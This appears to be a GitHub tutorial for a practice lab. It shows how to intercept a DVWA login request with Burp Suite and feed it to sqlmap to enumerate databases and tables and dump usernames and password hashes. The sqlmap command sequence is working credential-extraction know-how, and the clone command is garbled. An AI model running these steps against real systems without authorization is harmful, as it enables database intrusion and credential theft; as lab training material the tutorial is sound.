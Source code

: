 # Bypassing the login page using Burpsuite and Sqlmap

## first download the sqlmap through git clone

```sh
"https://github.com/sqlmapproject/sqlmap.git" sqlmap-dev
 
 ```
Type the following sqlmap –help command in a new terminal. 
 * will list all the flags used to retrieve the information.

## Open BurpSuite which is pre-installed in your kali linux.
 * go to 'proxy' tab  and open the  sub-tab 'intercept'.
 * And make the intercept button to 'on'. 

 ## Step(1.1)
 * Open the firefox browser  to configure the settings.
 * Try to install foxyproxy add-on on the firefox.
 * open the application and modify the proxy settings
 * Change the network setting fields to 127.0.0.1 and port to 8080.
 
 ## Step(1.2)
 * Now we need to install the burp certificate.
 * burp generates TLS certificate for each host,signed by its own Certificate Authority(CA)   certificate.will need Burps ceritficate as a trusted root in your browser.
 * Under the Proxy and <mark>Options tab</mark> for Burp Suite, I’m using the same exact settings. Now that both the <strong>FireFox</strong> and <strong>BurpSuite</strong> proxy settings are configured, FireFox should use Burp Suite as a proxy. 
 * Since Burp Suite is acting as a proxy, FireFox will not be able to request any information from the Web server until we forward it in Burp Suite.
 ## Step(1.3)
  * Using Damn vunlnerable web application(DVWA) we can check for the critical information.
  * Set the security level to <mark>LOW</mark>
  * And goto the sqlInjection tab to testing the site
  * Now try to enter any value in the user field and password field.
  * The burpsuite will intercept the request and give you the header fields of the data.
  * Save the data to local directory with <mark>.txt</mark> format.
 ## Step(1.4)
  * Open sqlmap tool and try to type the command:
  this command will fetch all the databases present.
  ```sh
  sqlmap -r 'path of the file' --dbs

  ``` 
  * Now we know the database present we need to know the tables.
  ```sh
  sqlmap -r 'path of the file' -D 'database name' --tables
  ```
  * to reveal the user tables we need the command:
  ```sh
  sqlmap -r 'path of the file' -D 'database name' -T 'users' –columns
  ```
  * Finally Dump Usernames and Passwords with:
  ```sh
  sqlmap -r 'path of the file' -D 'database name' -T 'table-name' –C 'user,password' –dump
  
  ```
  <strong>Sqlmap quickly retrieves the table entries for the user and password columns in the users table inside the database. We get the usernames and the MD5 hashes of the passwords.</strong>
  
  

  

